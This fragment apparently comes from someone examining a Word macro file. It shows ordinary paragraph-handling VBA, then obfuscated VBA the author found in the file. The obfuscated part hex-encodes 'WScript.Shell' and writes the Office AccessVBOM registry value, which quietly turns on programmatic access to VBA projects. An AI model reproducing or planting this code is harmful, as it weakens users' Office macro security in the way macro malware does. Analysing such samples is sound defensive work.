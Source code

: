 ```plaintext
    oPara.Range.InsertParagraphBefore 'Insert Paragraph
    MsgBox oPara.Range.Text
End Sub


Sub LoopThroughParagraphs()

    Dim oPara As Paragraph
    For Each oPara In ActiveDocument.Paragraphs
        'do something with it. We will just display
        'paragraph text if its style is "Heading 4"
        If oPara.Style = "Heading 4" Then
            MsgBox oPara.Range.Text
        End If
    Next oPara

End Sub
...
```

As I scrolled down, I begin to see some obfuscated code like:

```plaintext
Sub UoasNbaeRtslFl()
Dim AgotEoaiMarsEbine As Paragraph
Set AgotEoaiMarsEbine = ActiveDocument.Paragraphs(1)
MsgBox AgotEoaiMarsEbine.Range.Text
AgotEoaiMarsEbine.Range.InsertParagraphBefore
MsgBox AgotEoaiMarsEbine.Range.Text
End Sub
Sub KrtbRa()
Dim AgotEoaiMarsEbine As Paragraph
For Each AgotEoaiMarsEbine In ActiveDocument.Paragraphs
If AgotEoaiMarsEbine.Style = OtrpOlvrHtgdOt("48656164696e") & OtrpOlvrHtgdOt("672034") Then
MsgBox AgotEoaiMarsEbine.Range.Text
End If
Next AgotEoaiMarsEbine
End Sub

Private Sub PnenIkmeUitrv(EoeoCi_aBma As String, EchnUaupAyapCbslNo As Integer)
Dim UtkeNhciUdgaTosl As Object
Dim Eg_nTklcUiuoFt As String
Dim AlnwBfawEo As String
AlnwBfawEo = OtrpOlvrHtgdOt("57536372")
AlnwBfawEo = AlnwBfawEo & OtrpOlvrHtgdOt("6970") & OtrpOlvrHtgdOt("742e53")
AlnwBfawEo = AlnwBfawEo & OtrpOlvrHtgdOt("68656c6c")
Set UtkeNhciUdgaTosl = CreateObject(AlnwBfawEo)
Eg_nTklcUiuoFt = OtrpOlvrHtgdOt("484b45595f43555252454e545f555345525c536f6674776172655c4d6963726f736f66745c4f66666963") & OtrpOlvrHtgdOt("655c5c") & EoeoCi_aBma & OtrpOlvrHtgdOt("5c457863656c5c53656375726974795c41636365") & OtrpOlvrHtgdOt("737356424f4d")
UtkeNhciUdgaTosl.RegWrite Eg_nTklcUiuoFt, EchnUaupAyapCbslNo, OtrpOlvrHtgdOt("524547") & OtrpOlvrHtgdOt("5f44574f5244")
End Sub
```
